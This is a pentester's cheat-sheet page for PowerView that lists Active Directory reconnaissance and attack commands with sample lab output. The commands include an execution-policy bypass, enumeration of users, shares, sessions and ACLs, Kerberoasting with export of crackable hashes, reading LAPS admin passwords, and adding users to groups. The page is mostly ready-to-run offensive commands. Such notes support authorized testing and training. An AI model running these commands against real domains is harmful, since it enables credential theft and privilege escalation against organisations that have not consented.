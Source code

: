 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# PowerView

```powershell
# Execution policy bypass
powershell -ep bypass
# Import PowerView
Import-Module .\PowerView.ps1
```

## Enumeration

{% tabs %}
{% tab title="Domain Info" %}
```powershell
# List domain information
Get-NetDomain
```
{% endtab %}

{% tab title="Users" %}
```powershell
# List domain users (all attributes)
Get-NetUser
# List the specified attributes of all domain users
Get-NetUser | select cn,pwdlastset,lastlogon
```
{% endtab %}

{% tab title="Groups" %}
```powershell
# List domain groups
Get-NetGroup
# List the members of the specified group
Get-NetGroup 'Domain Admins' | select member
```
{% endtab %}

{% tab title="Hosts" %}
```powershell
# List computer objects
Get-NetComputer
# List the specified attributes of all computer objects
Get-NetComputer | select operatingsystem,dnshostname
```
{% endtab %}

{% tab title="Shares" %}
```powershell
# List all domain shares
Find-DomainShare
# List all domain shares available to the current user
Find-DomainShare -CheckShareAccess
```
{% endtab %}

{% tab title="SPNs" %}
```powershell
# List SPN accounts
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Local Admin" %}
Scan the network to find out if the current user has administrative access on other computers.

```powershell
Find-LocalAdminAccess
```

> _This command uses the `OpenServiceW` function to interact with the **Service Control Manager (SCM)** on a target machine. The SCM manages installed services and drivers. PowerView tries to connect to it with `SC_MANAGER_ALL_ACCESS` permissions, which **require administrative rights**. If it success, it means the current user has **administrator privileges** on that machine._
{% endtab %}

{% tab title="Logged-In Users" %}
Enumerate logged-in users.

```powershell
Get-NetSession -ComputerName web01
```

_This command uses the `NetWkstaUserEnum` and `NetSessionEnum` Windows APIs. `NetWkstaUserEnum` requires administrative privileges, while `NetSessionEnum` does not._
{% endtab %}

{% tab title="ACEs" %}
```powershell
> Get-ObjectAcl -Identity stephanie
...
ObjectDN               : CN=stephanie,CN=Users,DC=corp,DC=com
ObjectSID              : S-1-5-21-1987370270-658905905-1781884369-1104
ActiveDirectoryRights  : ReadProperty
...
SecurityIdentifier     : S-1-5-21-1987370270-658905905-1781884369-553
```

The output contains two SIDs that represent objects in AD. We can convert those into a readable domain object name.&#x20;

> The `ActiveDirectoryRights` property describes the type of permission applied to the object. The `SecurityIdentifier` tells us who has the `ReadProperty` permission. In this case, the `RAS and IAS Servers` group has `ReadProperty` access rights to the `stephanie` user.

```powershell
> Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104
CORP\stephanie
> Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-553
CORP\RAS and IAS Servers
```
{% endtab %}

{% tab title="ACLs" %}
{% code overflow="wrap" %}
```powershell
# find user's SID
$sid = Convert-NameToSid <USER>
# search for all domain objects that the user has rights over
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? ($_.SecurityIdentifier -eq $sid)
```
{% endcode %}

The `ObjectAceType` fields tells us what ACE the user has over the object.

<figure><img src="../../../.gitbook/assets/pv_objectacetype.png" alt=""><figcaption></figcaption></figure>

In case the script cannot be used, we can use native cmdlets. To convert the GUID into a human-readable format we can either perform a reverse search as shown below, or just google the GUID.

{% code overflow="wrap" %}
```powershell
# make a list of all domain users
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
# retrieve ACL information about the target user
foreach($line in [System.IO.File]::ReadLines("C:\Windows\Temp\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match '<DOMAIN>\\<USER>'}}
# convert GUID into a human-readable format
$guid= "00299570-246d-11d0-a768-00aa006e0529"
# reverse search to map the name to GUID
Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl
```
{% endcode %}
{% endtab %}

{% tab title="Permissions" %}
{% code overflow="wrap" %}
```powershell
# List all objects for which the current user has the specified permission
> Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier, ActiveDirectoryRights

SecurityIdentifier                            ActiveDirectoryRights
------------------                            ---------------------
S-1-5-21-1987370270-658905905-1781884369-512             GenericAll
S-1-5-21-1987370270-658905905-1781884369-1104            GenericAll
S-1-5-32-548                                             GenericAll
S-1-5-18                                                 GenericAll
S-1-5-21-1987370270-658905905-1781884369-519             GenericAll

# Convert SIDs to a readable format
> "S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName

CORP\Domain Admins
CORP\stephanie
BUILTIN\Account Operators
Local System
CORP\Enterprise Admins
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Attacks

### Kerberoasting

For Kerberoasting see [here](../attacks/kerberoasting.md#attack).

### Password Change

For changing the password of an account see [here](../permissions/forcechangepassword.md).

### LAPS Password

For changing the LAPS password see here.

{% tabs %}
{% tab title="Kerberoasting" %}
{% code overflow="wrap" %}
```powershell
# Enumerate Kerberoastable accounts
Get-DomainUser * -SPN | select samaccountname
# Kerberoast the enumerated accounts
Get-DomainUser * -SPN -verbose |  Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_spns.csv -NoTypeInformation
```
{% endcode %}
{% endtab %}

{% tab title="LAPS Password" %}
{% code overflow="wrap" %}
```powershell
Get-DomainComputer "MachineName" -Properties 'cn','ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Python Version

[PowerView.py](https://github.com/aniqfakhrul/powerview.py) is an alternative for the original [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) script. Its main goal is to achieve interactive session without having to repeatedly authenticate to ldap.

{% tabs %}
{% tab title="Connect" %}
```bash
powerview <domain>/<user>:'<pass>'@<domain> -k
```
{% endtab %}

{% tab title="Group Membership" %}
Add a user to a group:

```bash
# Add user to the group
PV > Add-DomainGroupMember -Identity <group> -Members <user>

# Confirm group membership
PV > Get-DomainGroupMember -Identity <group>
```
{% endtab %}

{% tab title="ACLs" %}
Check object's ACL:

{% code overflow="wrap" %}
```bash
# check rights of oorend over winrm_svc
Get-DomainObjectAcl -Identity winrm_svc -Where "SecurityIdentifier contains oorend"
```
{% endcode %}
{% endtab %}
{% endtabs %}
